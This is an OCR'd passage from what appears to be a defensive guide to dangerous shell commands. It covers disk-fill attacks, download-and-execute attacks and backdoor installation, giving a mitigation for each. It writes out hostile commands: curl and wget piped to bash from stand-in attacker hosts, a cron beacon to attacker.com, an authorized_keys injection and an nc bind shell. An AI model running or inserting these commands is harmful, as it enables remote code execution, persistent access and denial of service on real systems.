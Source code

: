 
## 3. Memory/Disk Fill Attacks

### Commands:
```bash
cat /dev/zero > /dev/null &
dd if=/dev/zero of=/fillfile bs=1M
:(){ echo "data" >> /tmp/file; $0; }
```

**Why they're dangerous:**
- Fills disk space rapidly
- Causes system instability
- Prevents logging and normal operations
- Can trigger service failures

**Defense:**
- Disk quotas per user
- Monitor disk usage with alerts
- Tmpfs size limits

---

## 4. Malicious Downloads and Execution

### Commands:
```bash
curl http://malicious-site.com/script.sh | bash
wget -qO- http://attacker.com/payload | sh
curl -s http://bad-actor.net/miner | sudo bash
```

**Why they're dangerous:**
- Executes arbitrary code from untrusted sources
- Bypasses file inspection
- Often installs cryptominers, backdoors, or ransomware
- Runs with shell privileges (potentially root with sudo)

**Defense:**
- Inspect scripts before execution
- Download first: `curl -O`, then review, then execute
- Use checksums/signatures for legitimate scripts
- Firewall egress filtering

---

## 5. Backdoor Installation

### Commands:
```bash
echo "attacker_key" >> ~/.ssh/authorized_keys
echo "* * * * * curl attacker.com/beacon" | crontab -
nc -lvp 4444 -e /bin/bash
```
